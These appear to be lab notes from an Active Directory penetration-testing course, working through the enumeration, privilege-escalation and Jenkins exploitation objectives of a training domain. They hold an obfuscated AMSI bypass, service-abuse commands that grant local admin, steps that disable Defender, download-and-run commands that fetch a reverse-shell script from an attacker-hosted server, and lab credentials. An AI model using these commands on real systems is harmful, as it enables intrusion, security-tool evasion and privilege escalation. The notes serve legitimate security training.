









Enumeration


# PowerShell 1337 Color Mode:

```
$host.UI.RawUI.ForegroundColor = "DarkGreen"
$host.UI.RawUI.BackgroundColor = "Black"
```

# Bypass AMSI:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

# **Learning Objective 1:**
- Enumeratate following for the dollarcorp domain:
    - Users
    - Computers
    - Domain Administrators
    - Enterprise Administrators
    - Shares

* * *


# Enumerate Users:

```
powershell -ep bypass
. .\PowerView.ps1
Get-NetUser
```

- List specicific property of all the users e.g. samaccountname:

```
Get-NetUser | select -ExpandProperty samaccountname
```



# Enumerate Computers:

```
Get-NetComputer
```



- Get IPs of Computers in subnet using ADModule

```
 Get-ADcomputer -Filter * -Properties DNSHostname | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName}
```


# Enumerate Domain Admins
- See Attributes of the Domain Admins Group:

```
Get-NetGroup -GroupName "Domain Admins" -FullData
```


- Get Members of the Domain Admins group:

```
Get-NetGroupMember -GroupName "Domain Admins"
```



# Enumerate Enterprise Admins
- Get Members of the Enterprise Admins Group:

```
# Have to query the the root domain because Enterprise Admins group is only present in the root of a forest

Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local
```


* * *

# **Flag 1:**

- SID of the member of the Enterprise Admins group


---

# Find interesting shares
```
Invoke-ShareFinder -Exclude Standard -ExcludePrint -ExcludeIPC -Verbose
```


---
# **Learning Objective 2:** 
- Enumerate following of dollarcorp domain:
	- List all the OUs
	- List all the computers in the StudentMachines OU.
	- List the GPOs
	- Enumerate GPO applied on the StudentMachines OU
***
- Enumerate Restricted Groups from GPO:
```
Get-NetGPOGroup -Verbose
```
- Look for membership of the group "RDPUsers"
```
Get-NetGroupMember -GroupName RDPUsers

#PowerView Dev
Get-NetGroupMember RDPusers
```


# List all the OUs
```
Get-NetOU
```


# List all Computers in StudentMachines OU:
```
# PowerView
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```


# List the GPOs:
```
Get-NetGPO
```


# Enumerate GPO applied to StudentMachines OU:
```
# PowerView
(Get-NetOU StudentMachines -FullData).gplink
# PowerView Dev
(Get-NetOU StudentMachines).gplink
```

```
Get-NetGPO -ADSPath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
```


---
# **FLAG 2**:

- Display name of the GPO applied on StudentMachines OU


---
# **Learning Objective 3:** 
- Enumerate the following:
	- ACL for the Users group
	- ACL for the Domain admins group
	- All modify/rights/permissions for the student537
---
# ACL for the Users group:
```
Get-ObjectAcl -SamAccountName "Users" -ResolveGUIDs -Verbose
```
# ACL for the Domain Admins group:
```
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose
```
- nothing out of the ordinary in lab here.
# ACLs for all of the GPOs:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```
# GPOs where student537 or RDPUsers group have interesting permissions:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ?{$_.IdentityReference -match "student"}
```
- nothing interesting in lab here.
# Check All Modify rights/perms for the student537 or RDPUsers group:
- use the old PowerView for this to work.
```
Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReference -match "student"}
```
```
Invoke-ACLScanner -ResolveGUIs | ?{$_.IdentityReference -match "RDPUsers"}
```
# **FLAG 3:**
- ActiveDirectory Rights for RDPUsers group on the users named Control537User


***
# Learning Objective 4:
- Enumerate all domains in the moneycorp.local forest
- Map the trusts of the dollarcorp.moneycorp.local domain
- Map External trusts in moneycorp.local forest
- Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?
***
# Enumerate all domains:
```
Get-NetForestDomain -Verbose
```


# Map the trusts of the dollarcorp domain:
```
Get-NetDomainTrust -NET
```



# Map all the trusts of the moneycorp.local forest:
```
Get-NetForestDomain | Get-NetDomainTrust -NET
```


# Get only the external trusts:
```
Get-NetForestDomain | Get-NetDomainTrust -NET | ?{$_.TrustType -eq 'External'}
```


# Identify external trusts of the dollarcorp.local domain
```
Get-NetDomainTrust -NET | ?{$_.TrustType -eq 'External'}
```


# Extract info from the external forest:
- Its Bi-directional so we can enumerate the external trust
```
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust -NET
```


***
# **FLAG 4:** Trust Direction for the trust between dollarcorp.moneycorp.local and eurocorp.local
- `BiDirectional`
***

# **Learning Objective 5:**
- Exploit a service on dcorp-student537 and elevate privileges to local administrator
- Identify a machine in the domain where student537 has local administrative access.
- Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 which is the dcorp-ci server.
***
# First enumerate all the services with Unquoted Path with PowerUp
```
. .\PowerUp.ps1
Get-ServiceUnquoted
```


# Enumerate which services allow the current user to make changes to the service binary:
```
Get-ModifiableServiceFile -Verbose
```


# Enumerate services with weak service permissions:
```
Get-ModifiableService -Verbose
```


# Abuse function for Get-ModifiableService and add our current domain user to the local administrators group:
```
Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName 'dcorp\student537'
```


- Log off and log on again with Local Admin privs!!
***
# **FLAG 5:** Service abused on the student VM for local priv esc:
- AbyssWebServer and/or SMTPTRAP
***

# Find a machine in the domain where we also have local admin rights:
```
Find-LocalAdminAccess -Verbose
```


# **FLAG 6:** Script Used for hunting admin privs using PSRemoting
- or use `Find-PSRemotingLocalAdminAccess.ps1` because if we can connect via PSRemoting then we have admin privs on it.


- so we have local admin access on `dcorp-adminsrv.dollarcorp.moneycorp.local`
- confim by running a PS Remoting session on it.
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```


# Jenkins Exploitation:
- Edit Invoke-PowerShellTcp.ps1 to include a function call at the bottom of script with what you where you would like the shell to go. Make sure the functions call matched whatever it is declared as in the beginning of the script.



- Pick a project to play with…and add Build Steps with the Execute Windows batch command option….disable the protections and then grab your script from the webserver that you are hosting it on. Save your changes.
	- Powershell -ep bypass
	- Powershell Set-MpPreference -DisableRealtimeMonitoring $true
	- Powershell Set-MpPreference -DisableIOAVProtection $true
	- Powershell iex (iwr http://172.16.x.x/Invoke-PowerShellTcp.ps1 -UseBasicParsing)


- Spin up your webserver and a listener. Powercat -l -v -p 53 -t 1000; In linux using rlwrap with netcat will work. 


- Build the project with “Build Now” in Jenkins and win. 


Note: If things go wonky or its not hitting your webserver and/or not executing…its useful to check out the Console log in Jenkins to see where things blew up. You can click on the down arrow next to the build number to select it. For example, below is the output after I fatfingered the command.


***
# **FLAG 7:** Jenkins user to access Jenkins webconsole
- builduser:builduser
***
# **FLAG 8:** Domain user used for running Jenkins service on dcorp-ci
- ciadmin


